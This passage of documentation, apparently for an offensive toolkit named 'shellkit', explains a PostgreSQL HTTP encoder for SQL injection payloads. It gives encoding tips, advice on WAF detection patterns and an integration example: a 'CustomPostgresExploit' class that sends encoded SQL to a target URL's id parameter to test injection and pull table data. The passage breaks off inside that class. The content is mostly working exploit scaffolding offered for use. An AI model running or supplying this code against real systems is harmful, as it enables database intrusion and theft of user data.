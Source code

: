 ### Issue 1: Double Encoding
```python
# Wrong: Double encoding
encoder = PostgresHTTPEncoder()
encoded1 = encoder.encode(payload)
encoded2 = encoder.encode(encoded1)  # Don't do this

# Correct: Single encoding
encoded = encoder.encode(payload)
```

### Issue 2: Special Characters
```python
# Handle special PostgreSQL operators correctly
encoder = PostgresHTTPEncoder()
payload = "SELECT * FROM users WHERE id <> ALL(SELECT id FROM admins)"
encoded = encoder.encode(payload)
```

## Security Considerations

1. Always validate encoded payloads before transmission
2. Be aware of WAF detection patterns
3. Consider payload length limitations
4. Handle errors gracefully to avoid information disclosure

## Integration Example

Here's a complete example showing how to integrate the PostgreSQL encoder with a custom exploitation script:

```python
from shellkit.encoders.http.postgres_encoder import PostgresHTTPEncoder
from shellkit.sql_injection import PostgresExploiter
import requests
import time

class CustomPostgresExploit:
    def __init__(self, target_url: str):
        self.target_url = target_url
        self.encoder = PostgresHTTPEncoder()
        self.exploiter = PostgresExploiter()
    
    def test_connection(self) -> bool:
        try:
            # Test simple query
            payload = "SELECT 1"
            encoded = self.encoder.encode(payload)
            response = requests.get(f"{self.target_url}?id={encoded}")
            return response.status_code == 200
        except Exception:
            return False
    
    def extract_data(self, table: str, column: str) -> list:
        results = []
        payload = f"SELECT {column} FROM {table} LIMIT 10"
        encoded = self.encoder.encode(payload)
        
        try:
            response = requests.get(f"{self.target_url}?id={encoded}")
            if response.status_code == 200:
                # Process response...
                pass
        except Exception as e:
```
